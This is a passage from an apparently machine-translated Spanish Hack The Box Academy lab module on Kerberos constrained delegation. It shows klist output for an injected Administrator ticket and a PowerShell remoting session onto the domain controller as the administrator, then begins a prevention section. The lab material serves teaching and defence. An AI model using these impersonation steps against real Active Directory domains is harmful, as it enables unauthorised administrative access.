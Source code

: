 ![](https://academy.hackthebox.com/storage/modules/176/A9/getTicket.png)

Para confirmar que`Rubeus`inyectado el boleto en la sesión actual, podemos usar el`klist`dominio:

Delegación restringida de Kerberos

```powershell
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x88721

Cached Tickets: (1)

#0>     Client: Administrator @ EAGLE.LOCAL        Server: http/dc1 @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 10/13/2022 14:56:07 (local)
        End Time:   10/14/2022 0:56:07 (local)
        Renew Time: 10/20/2022 14:56:07 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:

```

![](https://academy.hackthebox.com/storage/modules/176/A9/klistdelegated.png)

Con el boleto disponible, podemos conectarnos al controlador de dominio que se hace pasar por la cuenta`Administrator`:

Delegación restringida de Kerberos

```powershell
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>

```

![](https://academy.hackthebox.com/storage/modules/176/A9/pssession.png)

Si el último paso falla (es posible que necesitemos hacer`klist purge`, Obtenga nuevos boletos e intente nuevamente reiniciando la máquina). También podemos solicitar boletos para múltiples servicios con el`/altservice`argumento, como`LDAP`, `CFIS`, `time`, y`host`.

---

# **Prevención**

Afortunadamente, al diseñar la delegación de Kerberos, Microsoft implementó varios mecanismos de protección; Sin embargo, no los habilitó de forma predeterminada a ninguna cuenta de usuario. Hay dos formas directas de evitar que se emita un boleto para un usuario a través de la delegación:
